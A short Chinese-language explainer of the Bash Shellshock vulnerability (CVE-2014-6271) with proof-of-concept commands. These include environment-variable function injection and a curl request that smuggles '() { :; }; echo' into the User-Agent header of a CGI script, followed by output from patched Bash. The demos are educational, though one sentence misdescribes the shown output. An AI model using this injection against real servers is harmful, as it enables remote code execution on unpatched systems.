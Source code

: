```yaml
---
title: Shellshock
---
```


### 特性

Bash 有一项特性，可以用环境变量的形式定义函数，然后在一个新 shell 启动的时候，便可以执行这个函数：

	# on gentoo, affected version
	$ bash --version
	GNU bash, version 4.2.45(1)-release (i686-pc-linux-gnu)
	$ env HELLO="() { echo 'hello'; }" bash -c HELLO                   
	hello

这本来就很危险，远在 Shellshock 漏洞被发现之前，就有人担心使用 Bash 的自动导入函数功能会导致系统中那些不需要使用绝对路径来访问的标准程序被覆盖：

	# on gentoo, affected version
	$ env ls="() { echo 'Game over'; }" bash -c ls

### 漏洞

这里先不论该 Bash 特性的好坏，不过这次发现的 CVE-2014-6271 毫无疑问是一个漏洞。执行以下代码：

	# on gentoo, affected version
	$ env CVE_2014_6271="() { echo 'Hello';}; echo 'Goodbye'" bash -c \
	CVE_2014_6271
	Goodbye
	Hello

你会发现运行结果除了打印了“hello”，还打印了“world”。问题出在自动导入函数的解析器越过了函数定义的结尾，接着执行后面的代码——并且由于每一个新的 Bash 启动时都会触发这个漏洞，相当于任意代码都能被执行了。

当我们在 Apache 服务器中使用`mod_cgi`（不包括`mod_php`或`mod_python`）运行脚本的时候，数据是通过环境变量来传递的，这可以算是互联网领域最古老的一些技术了。其他一些客户端也会受到影响——比如 Linux 的 DHCP 客户端——它大量运用 Bash 脚本来使修改生效，这也使黑客能通过在 DHCP 数据包中加入恶意数据来达到攻击的目的。

鉴于 Bash 是大多数 Linux 系统上默认的 shell，这个漏洞就意味着，把有害数据编入环境变量，传到服务器端，触发服务器运行脚本，就完成了攻击。举个例子，HTTP  协议的头 User-Agent 通常是通过环境变量`HTTP_USER_AGENT`来传递的，这意味使用以下命令就可以利用这个漏洞了：

	$ curl -A "() { :; }; echo 'Game Over'}" \
	http://example.com/some-cgi/script.cgi

这条命令是指以`() { :; }; echo 'Game Over'}`为 User-agent 去下载那个脚本。而这里的`{ :; }`是什么意思呢？这可能是 Bash 里定义一个函数可能有的最简单的写法了。单单写一个`{ }`是有语法错误的，而如果要把一个函数定义在一行里，必须在其后加上`;`。

### 修复

针对此问题打了补丁的 Shell 似乎是直接关闭了通过环境变量导入函数的功能。以下测试在 Ubuntu Server 14.04 进行：

	# on ubuntu, patched version
	$ bash --version
	GNU bash, version 4.3.11(1)-release (x86_64-pc-linux-gnu)
	$ env HELLO="() { echo 'hello'; }" bash -c HELLO                   
	bash: HELLO: command not found

	# on ubuntu, patched version
	$ env CVE_2014_6271="() { echo 'Hello';}; echo 'Goodbye'" bash -c \
	CVE_2014_6271
	bash: CVE_2014_6271: command not found

_reference: http://www.infoq.com/cn/news/2014/09/shellshock_
